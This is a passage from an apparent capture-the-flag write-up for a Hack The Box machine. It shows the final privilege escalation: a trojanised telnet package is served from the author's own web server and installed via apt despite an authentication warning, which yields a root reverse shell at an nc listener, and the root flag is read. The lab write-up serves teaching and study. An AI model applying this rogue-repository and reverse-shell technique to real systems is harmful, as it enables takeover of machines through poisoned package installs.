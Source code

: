 

On entering `Y`, there's a warning:



    WARNING: The following packages cannot be authenticated!
      telnet
    Install these packages without verification? [y/N]



On entering `Y` again, there's another request to my web server
requesting the package:



    127.0.0.1 - - [26/Aug/2019 09:53:07] "GET /devuan/pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-42_amd64.deb HTTP/1.1" 200 -



The local screen shows messages:



    Get:1 http://packages.onetwoseven.htb/devuan ascii/main amd64 telnet amd64 0.17-42 [72.1 kB]
    Fetched 72.1 kB in 0s (239 kB/s)
    Reading changelogs... Done
    debconf: unable to initialize frontend: Dialog
    debconf: (Dialog frontend will not work on a dumb terminal, an emacs shell buffer, or without a controlling terminal.)
    debconf: falling back to frontend: Readline
    (Reading database ... 33940 files and directories currently installed.)
    Preparing to unpack .../telnet_0.17-42_amd64.deb ...
    Unpacking telnet (0.17-42) over (0.17-41) ...
    Setting up telnet (0.17-42) ...



It hangs on `Setting up telnet (0.17-42)`.

But I've got a shell at my `nc` listener:



    root@kali# nc -lvnp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.133.
    Ncat: Connection from 10.10.10.133:51224.
    root@onetwoseven:/# id
    uid=0(root) gid=0(root) groups=0(root)



From there, I can grab `root.txt`:



    root@onetwoseven:~# cat root.txt 
    2d380a25...







